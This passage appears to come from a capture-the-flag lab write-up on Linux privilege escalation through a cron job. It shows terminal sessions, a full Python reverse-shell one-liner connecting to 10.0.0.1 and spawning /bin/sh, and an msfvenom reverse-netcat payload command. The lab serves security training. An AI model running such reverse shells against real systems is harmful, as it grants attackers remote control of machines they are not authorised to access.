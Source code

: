 ~~~
user8@polobox:~$ su - user4
Password: 
Welcome to Linux Lite 4.4 user4
 
Thursday 14 May 2020, 17:09:48
Memory Usage: 324/983MB (32.96%)
Disk Usage: 6/217GB (3%)
Support - https://www.linuxliteos.com/forums/ (Right click, Open Link)
 
user4@polobox:~$ whoami
user4
~~~

## #8.2 - Now, on our host machine- let's create a payload for our cron exploit using msfvenom. 

I don't use msfvenom. I prefer to search for payloads on [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) or [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/).

We will do a python reverse shell. Let's check if python is installed on the host:

~~~
user4@polobox:~$ which python
/usr/bin/python
~~~

Perfect! Now, let's write a reverse python shell. Here is what you can find on pentestmonkey:

~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

## #8.3 - What is the flag to specify a payload in msfvenom?

If you're using msfvenom, the `-p` parameter is for the payload:

~~~
-p, --payload <payload>
	Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
~~~

Answer: `-p`

## #8.4 - Create a payload using: "msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R"

Not using msfvenom.

We'll use this payload:

